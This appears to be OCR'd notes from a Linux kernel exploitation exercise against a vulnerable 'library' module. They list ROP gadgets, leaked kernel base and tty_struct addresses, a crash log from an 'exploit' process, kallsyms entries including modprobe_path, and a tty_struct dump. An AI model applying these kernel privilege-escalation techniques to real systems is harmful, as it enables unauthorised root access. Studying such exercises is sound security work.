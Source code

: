ROP

0xffffffff810067e0 leave+ret

0xffffffff8113e9b0: mov qword [rdx], rsi ; ret  ;  (2 found)
0xffffffff81018c30: mov qword [rsi], rdx ; ret  ;  (4 found)

******************
  ulong rop_start = tty_addr + 0x100;
[!] kbase: 0xffffffff81000000
[!] tty_struct : 0xffff88800729c800

kernel tried to execute NX-protected page - exploit attempt? (uid: 0)
BUG: unable to handle page fault for address: ffff88800729c900
#PF: supervisor instruction fetch in kernel mode
#PF: error_code(0x0011) - permissions violation
PGD 1a00067 P4D 1a00067 PUD 1a01067 PMD 720a063 PTE 800000000729c063
Oops: 0011 [#1] PTI
CPU: 0 PID: 43 Comm: exploit Tainted: G           O      5.9.10 #5
RIP: 0010:0xffff88800729c900
Code: ff ff 00 c9 29 07 80 88 ff ff 00 c9 29 07 80 88 ff ff 00 c9 29 07 80 88 ff ff 00 c9 29 07 80 88 ff8
RSP: 0018:ffffc90000087e60 EFLAGS: 00000286
RAX: ffff88800729c900 RBX: 00000000dead6ae6 RCX: 00000000deadbeef
RDX: 00000000cafebabe RSI: 00000000deadbeef RDI: ffff88800729c800
RBP: ffffc90000087ef8 R08: 00000000cafebabe R09: ffff88800729c800
R10: 0000000000000000 R11: 0000000000000000 R12: 00000000deadbeef
R13: 00000000cafebabe R14: ffff88800729c800 R15: ffff8880003d0b00
FS:  00000000011c7300(0000) GS:ffffffff81832000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: ffff88800729c900 CR3: 0000000007232000 CR4: 00000000001006b0
Call Trace:
 ? tty_ioctl+0x56f/0x780
 ? hrtimer_nanosleep+0xa1/0x110
 ? hrtimer_init_sleeper+0x30/0x30
 __x64_sys_ioctl+0x7b/0xb0
 do_syscall_64+0x36/0x80
 entry_SYSCALL_64_after_hwframe+0x44/0xa9
RIP: 0033:0x4596bb


*********************

0xffffffff8114f260 T tty_ioctl
0xffffffff81837d00 D modprobe_path


0xffffffff81000000 T _text

0xffffffffc00002c6 t library_open [library]
0xffffffffc0000000 t remove_all   [library]
0xffffffffc00002de t library_release      [library]
0xffffffffc0000040 t library_ioctl        [library]
0xffffffffc0002140 d ioctl_lock   [library]
0xffffffffc0002120 d remove_all_lock      [library]
0xffffffffc00002fb t library_ioctl.cold   [library]
0xffffffffc0002020 d library_fops [library]
0xffffffffc0002410 b major        [library]
0xffffffffc0002408 b __key.26482  [library]
0xffffffffc0002408 b library_class        [library]
0xffffffffc0002408 b __key.26484  [library]
0xffffffffc0002408 b __key.26485  [library]
0xffffffffc00012fc r _note_7      [library]
0xffffffffc0002180 d __this_module        [library]
0xffffffffc0002400 b root [library]
0xffffffffc0002000 d counter      [library]

[0x020] 00000100
[0x038] ffff888006912438
[0x040] ffff888006912438
[0x048] ffff888006912448
[0x050] ffff888006912448
[0x058] ffff888006862320
[0x068] ffff888006912468
[0x070] ffff888006912468
[0x080] ffff888006912480
[0x088] ffff888006912480
[0x098] ffff888006912498
[0x0a0] ffff888006912498
[0x0b8] ffff8880069124b8
[0x0c0] ffff8880069124b8
[0x0d0] ffff8880069124d0
[0x0d8] ffff8880069124d0
[0x0e8] 000000bf
[0x0f0] 10004157f1c0300
[0x0f8] 170f12001a131100
[0x100] 960000000016
[0x108] 00009600
[0x140] 3635326d7470
[0x190] 00010801
[0x198] 00000001
[0x1c8] ffff888006912000
[0x1d8] ffff8880069125d8
[0x1e0] ffff8880069125d8
[0x1e8] ffff8880069125e8
[0x1f0] ffff8880069125e8
[0x1f8] fffffffe0
[0x200] ffff888006912600
[0x208] ffff888006912600
[0x210] ffffffff8114fc00
[0x218] ffffc90000891000
[0x220] ffff888000165880
[0x228] ffff888006843b30
[0x230] ffff888006843b30
[0x250] fffffffe0
[0x258] ffff888006912658
[0x260] ffff888006912658
[0x268] ffffffff8114ec30
[0x270] ffff88800690a600

>>> some = 0xffffffff8114fc00
>>> kbase = 0xffffffff81000000
>>> hex(some - kbase)
'0x14fc00'
